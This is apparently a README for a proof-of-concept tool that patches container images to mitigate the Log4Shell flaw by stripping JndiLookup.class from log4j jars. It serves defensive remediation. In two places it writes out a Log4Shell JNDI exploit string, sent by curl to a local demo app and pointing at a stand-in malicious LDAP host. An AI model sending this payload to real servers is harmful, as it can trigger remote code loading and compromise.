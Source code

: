 > **WARNING**:
> DO NOT USE FOR PRODUCTION!
> This is a demo / proof of concept.
>
# Patching container images

## Motivation

Container images are meant to be immutable.
Any changes should be done by rebuilding the image.
When faced with a critical vulnerability such as [log4shell](https://en.wikipedia.org/wiki/Log4Shell), one might have very little time to remedy the situation.
In the optimal case there is a fix available and the container image can be easily rebuilt.

But what if:
* The container image is built by someone else and the fix is not available?
* The fixed version of the image is not backwards compatible and requires extensive work to take into use?

### The Idea

There should be a tool that allows applying a workaround by patching an existing container image.
The tool shall address following requirements:

* It shall be unnecessary to rebuild the image and have access to the original source files.
* It shall be possible to apply typical workarounds such as adding files, modifying files, removing files. That also implies it shall be possible to extract files from existing image to be modified.

With these capabilities, it should be possible to do only minimal changes to the original image.
That reduces the risk of breaking the backwards compatibility of the application, while still allowing quick remediation.

## Demo

The mitigation for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) given by the maintainers ([link](https://logging.apache.org/log4j/2.x/security.html)) is to remove the vulnerable `class` from the impacted `jar` file by running

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### Preparation


First we start by cloning and building an example application with log4j vulnerability


```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t vulnerable-app:latest
```
Thanks to [@christophetd](https://github.com/christophetd) for making an excellent example application available!

To run the application execute:

```
docker run --rm -p 8080:8080 vulnerable-app:latest
```

To see that the application is vulnerable, make a request with exploit payload and observe from logs from the application, where it tries to connect to the LDAP server.
(you do not need to have a real LDAP server for this)

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://malicious-server:1389/}'
```

### Patching the vulnerable image

Clone this repository and compile `image-patcher`

```
make
```

Use `image-patcher extract` to extract the (suspected) vulnerable files.
It will go through all files in the source image and find `log4j-core` either directly as `jar` file or embedded within another `jar` file.
The command will extract all matching files to the `patch` directory.

```
./image-patcher extract -search-jars -source-tag vulnerable-app:latest -match 'log4j-core.+\.jar' -dest-dir patch
```

In this case, the `log4j-core` package is within executable `jar`.
Unzip the application to get to the `log4j-core` file

```
unzip -d jar patch/app/spring-boot-application.jar
```

Patch `log4j-core` by removing `JndiLookup.class` from the application `jar`

```
find jar -name 'log4j-core-*' -exec zip -q -d {} org/apache/logging/log4j/core/lookup/JndiLookup.class \;
```

Create a new executable application `jar` and overwrite the vulnerable version with it

```
(cd jar; zip -0 -r ../patched-spring-boot-application.jar .)
mv patched-spring-boot-application.jar patch/app/spring-boot-application.jar
```

Create a new patched container image, with an additional layer.
The contents of the layer is loaded from the `patch` directory

```
./image-patcher patch -source-tag vulnerable-app:latest -dest-tag patched-app:latest -patch-dir patch
```

Run the test again with the patched application and observe that it is not vulnerable anymore

```
docker run --rm -p 8080:8080 patched-app:latest
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://malicious-server:1389/}'
```

Observe that one additional layer was added to the image by `image-patcher patch` command

```
docker image inspect vulnerable-app:latest | tail -15
docker image inspect patched-app:latest | tail -16
```

## Final thoughts

The demo has manual steps for extracting and patching the `jar` file.
These steps could be automated as well.

The demo concentrates on `jar` manipulation for mitigating `log4j` vulnerability.
A general image patching tool could be implemented with support for more use cases.

